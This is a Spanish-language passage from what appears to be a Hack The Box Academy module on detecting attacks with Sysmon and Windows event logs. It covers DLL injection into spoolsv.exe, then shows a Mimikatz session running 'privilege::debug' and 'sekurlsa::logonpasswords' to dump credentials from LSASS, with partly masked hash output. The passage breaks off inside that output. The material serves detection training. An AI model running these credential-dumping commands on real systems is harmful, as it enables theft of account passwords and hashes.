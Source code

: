 ![](https://academy.hackthebox.com/storage/modules/216/image27.png)

Después de la inyección, observamos que "spoolsv.exe" pasa de un estado no administrado a uno administrado.

![](https://academy.hackthebox.com/storage/modules/216/image28.png)

Además, al consultar la pestaña "Módulos" relacionada de Process Hacker y Sysmon `Event ID 7`, podemos examinar la información de carga de la DLL para validar la presencia de las DLL antes mencionadas.

![](https://academy.hackthebox.com/storage/modules/216/image29.png)

![](https://academy.hackthebox.com/storage/modules/216/image30.png)

---

# **Ejemplo de detección 3: detección de volcado de credenciales**

Otro aspecto crítico de la ciberseguridad es la detección de actividades de dumping de credenciales. Una herramienta ampliamente utilizada para el volcado de credenciales es[Mimikatz](https://github.com/gentilkiwi/mimikatz), que ofrece varios métodos para extraer credenciales de Windows. Un comando específico, "sekurlsa::logonpasswords", permite volcar hashes de contraseñas o contraseñas de texto sin formato accediendo al[Servicio del Subsistema de Autoridad de Seguridad Local (LSASS)](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service). LSASS es responsable de administrar las credenciales de los usuarios y es el objetivo principal de las herramientas de volcado de credenciales como Mimikatz.

El ataque se puede ejecutar de la siguiente manera.

Analizando el mal con Sysmon y registros de eventos

```
C:\Tools\Mimikatz> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1128191 (00000000:001136ff)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : DESKTOP-NU10MTO
Logon Server      : DESKTOP-NU10MTO
Logon Time        : 5/31/2023 4:14:41 PM
SID               : S-1-5-21-2712802632-2324259492-1677155984-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * NTLM     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
         * SHA1     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX0812156b
        tspkg :
        wdigest :
         * Username : Administrator
```